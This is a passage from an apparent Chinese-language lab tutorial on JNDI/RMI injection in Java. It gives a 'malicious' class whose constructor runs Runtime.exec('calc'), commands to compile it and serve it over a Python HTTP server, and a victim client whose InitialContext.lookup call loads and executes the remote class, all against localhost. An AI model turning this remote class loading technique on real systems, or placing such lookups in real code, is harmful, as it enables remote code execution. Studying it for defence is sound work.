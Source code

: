 ![image-20220210132829359](images/2.png)

恶意类

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

这里不要弄成main方法了,应该构造一个显示的构造函数来放置恶意代码才会执行

并且这个恶意类不要加包名,所以放在了编译器的根目录,而且不要和服务端还有客户端放在同一个目录,不要在启动客户端的时候会直接从当前目录下寻找到这个class文件,不启动web服务也能成功

接下来编译出class文件挂载在web页面上

```
编译:javac test.java
部署在web服务上：py -3 -m http.server 8081 #端口根据前面服务端url的端口
```

客户端(受害者)

```
package JNDI;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

当客户端通过`InitialContext().lookup("rmi://127.0.0.1:8081/obj")`获取远程对象时就会加载恶意class文件

先启动服务端,然后运行客户端,命令执行成功
